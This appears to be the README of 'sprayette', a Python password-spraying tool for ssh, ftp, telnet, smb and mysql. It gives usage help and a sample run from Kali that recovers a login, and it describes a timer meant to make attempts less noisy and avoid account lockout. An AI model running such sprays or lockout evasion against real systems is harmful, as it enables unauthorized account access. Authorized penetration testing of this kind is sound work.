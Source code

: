 ## PASSWORD SPRAY MULTI USE (PSMU) AKA SPRAYETTE
# Introduction
	The idea of sprayette was to have a tool that it can be used to perform a password spray over multiple 
	services like ssh,ftp,telnet,smb,mysql so far. 
	Also adds the possiblity of use a timer for the process so it can "less noisy" and in some cases avoid
	an account lockout since its a brute force attack.


# Requisites
	argparse
	time
	telnetlib
	paramiko (SSH)
	mysql.connector
	ftplib

# Usage
	root@kali# ./sprayette.py -h
	usage: sprayette.py [-h] [-p PORT] protocol ip users passwords attemps timer

	positional arguments:
		protocol              Protocol to perform the spray (telnet,ssh,ftp,smb,mysql)
		ip                    The ip to perform the spray
		users                 Users list (one per line)
		passwords             Passwords list (one per line)
		attemps               The amount of attemps before the timer starts
		timer                 The sleep time (minutes)

		optional arguments:
		 -h, --help            show this help message and exit
		 -p PORT, --port PORT

# Example
	root@kali# ./sprayette.py ssh 192.168.0.146 user.txt passwords.txt 2 1
	[*] Trying with misc:qwerty -> Failed!!!
	[*] Trying with neo:qwerty -> Failed!!!
	[*] Trying with root:qwerty -> Failed!!!
	[*] Trying with misc:toor -> Success!!!
	[*] Trying with neo:toor -> Failed!!!
	[*] Trying with root:toor -> Failed!!!
	Going to sleep for 1 minutes
	Back on spray
	[*] Trying with neo:password -> Failed!!!
	[*] Trying with root:password -> Failed!!!
	Obtained the following credentials:
	misc:toor

